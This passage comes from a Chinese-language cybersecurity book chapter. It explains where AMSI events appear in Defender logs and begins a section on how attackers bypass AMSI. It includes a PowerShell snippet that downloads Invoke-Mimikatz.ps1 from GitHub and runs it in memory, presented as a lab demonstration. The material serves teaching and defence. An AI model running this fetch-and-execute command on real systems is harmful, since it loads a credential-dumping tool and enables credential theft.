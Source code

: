 ![图 12.5 – 如果使用默认的 Defender 引擎，AMSI 相关事件会出现在 Defender/Operational 事件日志中](img/B16679_12_005.jpg)

图 12.5 – 如果使用默认的 Defender 引擎，AMSI 相关事件会出现在 Defender/Operational 事件日志中。

现在你已经了解了 AMSI 的工作原理、为什么它是必要的以及它如何帮助防御，我们接下来将深入探讨对手是如何尝试绕过 AMSI 的。

# 绕过 AMSI

AMSI 在防止恶意代码执行方面对防御者非常有帮助。但如果攻击者没有尝试找到绕过 AMSI 的方法，他们就不再是攻击者了。在这一部分，我们将探讨一些常见的技术。

我遇到的大多数绕过方法都以某种方式尝试篡改`amsi.dll`。大多数情况下，目标是通过替换`amsi.dll`为自定义版本，或者完全避免使用`amsi.dll`，从而使恶意代码看起来干净。

通常，当人们发现新的绕过方法并写博客时，它会在发布后不久被修复并检测到。

Joseph Bialek 最初编写了`Invoke-Mimikatz.ps1`脚本，以通过 PowerShell 使所有 Mimikatz 功能可用。

`Invoke-Mimikatz`是`nishang`模块的一部分，可以从 GitHub 下载：[`raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1`](https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1)。

为了展示这里的示例，我创建了一个小模块，加载了`Invoke-Mimikatz.ps1`脚本。如果你想在你的演示环境中复现它，只需复制并粘贴原始代码：

```
New-Module -Name Invoke-MimikatzModule -ScriptBlock {
    Invoke-Expression (Invoke-WebRequest -UseBasicParsing "https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
    Export-ModuleMember -function Invoke-Mimikatz
} | Import-Module
```

你也可以在本章的 GitHub 仓库中找到这个小代码片段：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/Demo_loadMimikatz.ps1`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/blob/master/Chapter12/Demo_loadMimikatz.ps1)。
